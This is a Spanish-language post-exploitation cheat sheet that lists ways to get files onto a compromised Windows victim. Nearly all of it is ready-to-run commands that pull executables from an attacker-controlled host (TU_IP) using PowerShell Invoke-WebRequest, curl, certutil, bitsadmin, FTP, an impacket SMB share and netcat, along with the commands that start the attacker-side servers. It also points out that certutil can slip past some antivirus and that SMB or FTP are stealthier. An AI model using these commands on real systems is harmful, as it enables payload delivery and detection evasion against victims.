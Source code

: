 ### 📌 **Métodos para Transferir Archivos a un Windows Comprometido**

Si tienes acceso a un sistema Windows comprometido, puedes transferir archivos de diferentes maneras dependiendo de las herramientas disponibles y las restricciones del sistema.

---

## 🔹 **1️⃣ PowerShell (Recomendado)**

Si PowerShell está disponible, puedes descargar archivos desde tu máquina atacante con este comando:

```powershell
Invoke-WebRequest -Uri "http://TU_IP/archivo.exe" -OutFile "C:\Users\Public\archivo.exe"
```

🔹 **Explicación:**

- `Invoke-WebRequest` descarga el archivo desde tu servidor.
- `-Uri` especifica la URL del archivo en tu máquina atacante.
- `-OutFile` define dónde guardar el archivo en la máquina víctima.

### 🔹 **Alternativa con `curl` en PowerShell 3.0+**

```powershell
curl -o C:\Users\Public\archivo.exe http://TU_IP/archivo.exe
```

🔹 **Cómo iniciar un servidor en la máquina atacante (Kali/Linux):**

```bash
python3 -m http.server 80
```

🔹 Luego accede desde la víctima con PowerShell.

---

## 🔹 **2️⃣ CertUtil (Si PowerShell está bloqueado)**

```cmd
certutil -urlcache -split -f "http://TU_IP/archivo.exe" "C:\Users\Public\archivo.exe"
```

🔹 `certutil` es una herramienta integrada en Windows que permite descargar archivos sin activar alarmas en algunos antivirus.

---

## 🔹 **3️⃣ FTP (Si tienes un servidor FTP configurado)**

Desde la víctima:

```cmd
ftp TU_IP
```

- Introducir usuario y contraseña (si aplica).
- Luego ejecutar:

```cmd
binary
get archivo.exe
```

- Finalmente, salir con `bye`.

🔹 **Cómo iniciar un servidor FTP en Kali:**

```bash
sudo python3 -m pyftpdlib -p 21
```

---

## 🔹 **4️⃣ SMB (Si el firewall permite tráfico SMB)**

Desde la máquina atacante (Kali):

```bash
impacket-smbserver share $(pwd) -smb2support
```

🔹 Luego, en Windows víctima:

```cmd
net use Z: \\TU_IP\share
copy Z:\archivo.exe C:\Users\Public\
```

---

## 🔹 **5️⃣ Uso de `nc` (Netcat)**

Si `nc` está disponible en Windows, desde la máquina atacante:

```bash
nc -lvnp 4444 < archivo.exe
```

Luego, en la víctima (Windows):

```cmd
nc TU_IP 4444 > archivo.exe
```

---

## 🔹 **6️⃣ Descarga con BitsAdmin (Si `certutil` está bloqueado)**

```cmd
bitsadmin /transfer myJob /download /priority high http://TU_IP/archivo.exe C:\Users\Public\archivo.exe
```

🔹 `BitsAdmin` es una utilidad de Windows para manejar descargas en segundo plano.

---

## 🚀 **Conclusión**

Si tienes **PowerShell**, usa `Invoke-WebRequest`.  
Si PowerShell está **bloqueado**, usa `certutil`.  
Si necesitas algo más sigiloso, **usa SMB o FTP**.